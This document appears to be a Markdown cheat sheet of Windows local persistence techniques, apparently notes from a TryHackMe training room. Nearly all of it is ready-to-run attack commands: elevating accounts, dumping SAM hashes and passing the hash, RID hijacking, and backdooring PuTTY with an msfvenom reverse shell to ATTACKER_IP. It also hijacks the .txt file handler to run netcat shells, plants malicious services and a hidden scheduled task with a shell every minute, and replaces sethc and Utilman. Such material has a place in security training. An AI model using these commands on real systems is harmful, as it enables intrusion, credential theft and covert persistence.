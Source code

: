Best Resource on the planet: [https://tryhackme.com/room/windowslocalpersistence](https://tryhackme.com/room/windowslocalpersistence)

# Elevating Unpriv Accounts
## Add users to groups
```powershell
# Add to admin
net localgroup administrators oscar42 /add

# Add to backup operators. Can read/write any mem location or reg
net localgroup "Backup Operators" oscar42 /add

# Allow RDP for backup operators 
net localgroup "Remote Management Users" oscar42 /add

# Disable LocalAccountTokenFilterPolicy to allow use of remote admin
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1

```

### Conn to group using Evil-WinRM
```bash
# Connect to box
evil-winrm -i 10.10.0.1 -u oscar42 -p Password321

# Check Groups 
whoami /groups

# Download for secrets dump
reg save hklm\system system.bak
reg save hklm\sam sam.bak
download system.bak
download sam.bak

# Dump hashes using Impacket
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL

# Login using admin hash (last part of hashdump)
evil-winrm -i 10.10.0.1 -u Administrator -H 1cea1d7e8899f69e89088c4cb4bbdaa3
```

## Special Privileges and Security Descriptors
**List of privs:** [https://docs.microsoft.com/...](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)
| Name                   | Description                                                            |
| ---------------------- | ---------------------------------------------------------------------- |
| SeBackupPrivilege  | The user can read any file in the system, ignoring any DACL in place.  |
| SeRestorePrivilege | The user can write any file in the system, ignoring any DACL in place. | 

```powershell
# Export current config
secedit /export /cfg config.inf

# Add user to lines in config
SeBackupPrivilege = *S-1-5-32-544,*S-1-5-32-551,oscar42
SeRestorePrivilege = *S-1-5-32-544,*S-1-5-32-551,oscar42

# Convert modified file to DB and load it to sys

secedit /import /cfg config.inf /db config.sdb
secedit /configure /db config.sdb /cfg config.inf

# To allow RDP, Open GUI, Add oscar42 user, Allow Full controll permission
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI

# You can now connect to Winrm
evil-winrm -i 10.10.0.1 -u oscar42 -p Password321
```

## Relative ID (RID) Hijacking
```powershell
# List RIDs of all users
wmic useraccount get name,sid
```

```
>> wmic useraccount get name,sid
Name                SID
Administrator       S-1-5-21-1966530601-3185510712-10604624-500
DefaultAccount      S-1-5-21-1966530601-3185510712-10604624-503
Guest               S-1-5-21-1966530601-3185510712-10604624-501
oscar42             S-1-5-21-1966530601-3185510712-10604624-1010
WDAGUtilityAccount  S-1-5-21-1966530601-3185510712-10604624-504
```

The important bit is the `1010` at the end of the SID for the user oscar42. This is the RID, and we need to change it to the same value as the administrator, `500`.

```
# open regedit as System using PSEXEC
PsExec64.exe -i -s regedit
```

Now we need to modify the `HKLM\SAM\SAM\Domains\Account\Users\` key for the user we want to elevate. Convert the RID to HEX to find the user. In this case, `1010` converts to `0x3f2`.

Modify the F key to have the admins bytes, `0x1f4` with the byte order reversed.


# Backdooring Files
## Using MSFVenom
```bash
# Add a backdoor to Putty that executes a payload on run
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

## Hijacking File Extensions
File extensions are located at `HKLM\Software\Classes\`. We can then select a extension. Selecting the .txt extension reveals a link to the class `txtfile`. We can then change the command ran when opening this file type at `Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Classes\txtfile\shell\open\command`

**Backdoor PS1 to run a revshell on notepad launch:**
```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4448"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```
we can then save this script to `c:\Windows\system32\backdoor.ps1`, and change the reg key to `powershell -windowstyle hidden C:\windows\system32\backdoor2.ps1 %1`. Opening any .txt file will now execute our payload.

# Services
## Auto change admin pass
This will create a service that changes the admin password to passwd123 on startup.
 ```powershell
sc.exe create THMservice binPath= "net user Administrator Passwd123" start= auto
sc.exe start THMservice
```

## MSFVenom
On the attackers machine:
```bash
# Creates a malicious service
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4448 -f exe-service -o rev-svc.exe
```

On the target machine:
```powershell
# After dropping the exe into C:\Windows\
sc.exe create malService binPath= "C:\windows\rev-svc.exe" start= auto
sc.exe start malService
```

## Service hijacking
```powershell
# List all services. We want to look for a stopped service to avoid
# detection from a AV monitoring services
sc.exe query state=all

# Query for information on a discovered service
sc.exe qc service1

# Change binary path for service 
sc.exe config service1 binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"

# now you can either wait for the service to start itself, or start it manually with
sc.exe start service1
```

# Task Scheduler
```powershell
# Create a task to establish a connection every min
schtasks /create /sc minute /mo 1 /tn TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM

# Check if task was created 
schtasks /query /tn taskbackdoor
```

## Hide task
A task can be hidden by deleting its service descriptor (SD). Service descriptors can be viewed at `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\`. Next, select the service you created and delete the SD record for it. 

# Logon Triggered Persistence
## Startup Folder
```powershell
# Programs stored in
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\
# Will be ran on startup
```

## Registry
```powershell
# Create a REG_EXPAND_SZ in the registry path with a link to the application
HKLM\Software\Microsoft\Windows\CurrentVersion\Run

# Add a link to the exe after the comma in UserInit
HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\

# Add a key called "UserInitMprLogonScript" with a path to the exe
HKCU\Environment

```

# Logon Screen
## Stickeykeys
```powershell
takeown /f c:\Windows\System32\sethc.exe
icacls C:\Windows\System32\sethc.exe /grant Administrator:F
copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
# Shift 5 times at lockscreen will now pop a shell
```

## Utilman
```powershell
takeown /f c:\Windows\System32\Utilman.exe
icacls C:\Windows\System32\Utilman.exe /grant Administrator:F
copy c:\Windows\System32\cmd.exe C:\Windows\System32\Utilman.exe
# Pressing the accessability settings will now pop a shell
```